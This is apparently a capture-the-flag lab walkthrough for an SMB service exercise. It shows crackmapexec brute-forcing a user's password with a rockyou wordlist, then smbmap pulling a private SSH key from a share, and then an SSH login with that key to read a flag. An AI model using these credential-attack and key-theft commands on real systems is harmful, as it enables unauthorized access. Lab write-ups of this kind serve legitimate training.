





### Q.1 What is the name of the shared folder with READ permissions?


### Q.2 What is the password for the username "jason"?
```sh
crackmapexec smb 10.129.203.6 -u jason -p rockyou.txt --local-auth
```




### Q.3 Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.
First, we download the private SSH key from the SMB share using smbmap.
```sh
smbmap -H 10.129.203.6 --download "GGJ\id_rsa" -u jason -p "34c8zuNBo91\!@28Bszh"
```

Next, we change the permissions of the downloaded key to make it usable.
```sh
chmod 700 10.129.203.6-GGJ_id_rsa
```

Finally, we use the SSH key to log in as "jason" and read the `flag.txt` file.
```sh
ssh jason@10.129.203.6 -i 10.129.203.6-GGJ_id_rsa
```
